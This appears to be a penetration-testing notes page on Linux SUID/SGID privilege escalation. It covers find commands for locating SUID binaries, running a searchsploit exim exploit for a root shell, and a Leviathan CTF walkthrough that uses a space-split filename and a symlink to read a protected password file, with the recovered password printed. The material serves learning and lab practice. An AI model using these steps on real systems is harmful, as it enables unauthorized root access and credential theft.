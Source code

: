 # SUID / SGID abuse

#### SUID files get executed with the privileges of the file owner.

#### SGID files get executed with the privileges of the file group.

If the file is owned by root, it gets executed with root privileges, and we may be able to use it to escalate privileges.

## <mark style="color:red;">Finding SUID / SGID Files</mark>

We can use the following find command to locate files with the SUID or SGID bits set:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

or

`find / -perm -2000 -o -perm -4000 2> /dev/null`

after finding the binaries, check GTFOBins for them to see if any of them is vulnerable to shell escape:

{% embed url="https://gtfobins.github.io" %}

## <mark style="color:red;">Shell Escape Sequences</mark>

Just as we were able to use shell escape sequences with programs running via sudo, we can do the same with SUID / SGID files. A list of programs with their shell escape sequences can be found here: [https://gtfobins.github.io/](https://gtfobins.github.io) Refer to the previous section on shell escape sequences for how to use them.

### <mark style="color:orange;">A Quick Word on LD\_PRELOAD & LD\_LIBRARY\_PATH</mark>

why we can’t just use the same LD\_PRELOAD and LD\_LIBRARY\_PATH environment variable tricks we used with sudo privilege escalation?

#### <mark style="color:green;">By default, this is disabled in Linux, due to the obvious security risk it presents!</mark>

Both these environment variables get ignored when SUID files are executed

Certain programs install SUID files to aid their operation. Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files. Exploits can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.

for example we found an SUID file for exim service:

#### `-rwsr-xr-x 1 root root 963691 May 13 2017 /usr/sbin/exim-4.84-3`

Exim is a popular mail transfer agent that is somewhat notorious for having many security vulnerabilities.

The version of exim is rather obvious from the filename, however we can confirm it:

#### `$ /usr/sbin/exim-4.84-3 --version`

Using searchsploit on our local machine, we find a local privilege escalation for this exact version:

![](../../../.gitbook/assets/suid1.png)

Copy the exploit script across to the target machine. You may need to remove ^M characters from the script:

{% hint style="info" %}
DON NOT COPY PASTE THIS, ENTER ^M WITH THE KEY COMBINATIONS.

Note that to get ^M you have to hold Ctrl and then press V and M in succession.
{% endhint %}

`sed -e "s/^M//" 39535.sh > privesc.sh`

Make sure the script is executable:

`chmod +x privesc.sh`

Execute the script to gain a root shell:

`./privesc.sh`

## <mark style="color:red;">Abusing cat to read files with SUID executables</mark>

we have a suid program that prints out a given file contents named printfile we have a password file that cant be read by this program which contains root password .it seems the program printfile outputs the text from a file; just like cat. Therefore, we can assume that it’s using cat somewhere in the code.

![](<../../../.gitbook/assets/1 (14).png>)

make a temp directory, and a new text file that we can use for testing the program with ltrace.

```
leviathan2@melinda:~$ mkdir /tmp/jhalon && touch /tmp/jhalon/test.txt
leviathan2@melinda:~$ cd /tmp/jhalon
leviathan2@melinda:/tmp/jhalon$ ltrace ~/printfile test.txt

__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600 <unfinished ...>
access("test.txt", 4)                            = 0
snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17
system("/bin/cat test.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```

From the output, we can see that there is a small security hole in the way this program functions. If you look closely, you can see that the function access() and /bin/cat are being called on the input file. What access() does is check permissions based on the process’ real user ID rather than the effective user ID

And if we look back into the previous ls -la output, we can see that printfile is owned by leviathan3. So access() will call the process with leviathan3’s privileges

Looking into the code we also see that /bin/cat is being called on the file to output the contents. While access() uses the full path’s filename, /bin/cat uses just the first part of the filename. (This is due to how the “ “ are set up in the program) What we can do here is try to add a space to a filename, and if we are correct, /bin/cat will read the file as 2 separate files.

```
leviathan2@melinda:/tmp/jhalon$touch pass\ file.txt
leviathan2@melinda:/tmp/jhalon$ ltrace ~/printfile "pass file.txt"
__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600 <unfinished ...>
access("pass file.txt", 4)                       = 0
snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22
system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++
```

As you can see, /bin/cat calls “pass file.txt” as two separate files, “pass” and “file.txt”. We can actually exploit this! Let’s go ahead and create a symbolic link for the “pass” part in “pass file.txt”, and link it to /etc/leviathan\_pass/leviathan3.

```
 ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass
 
leviathan2@melinda:/tmp/jhalon$ ls -la
total 7864
drwxrwxr-x 2 leviathan2 leviathan2    4096 Sep 10 04:55 .
drwxrwx-wt 1 root       root       8036352 Sep 10 04:55 ..
lrwxrwxrwx 1 leviathan2 leviathan2      30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2       0 Sep 10 04:54 pass file.txt

leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"
Ahdiemoo1j
/bin/cat: file.txt: No such file or directory

```

as you can see we where able to read password file.
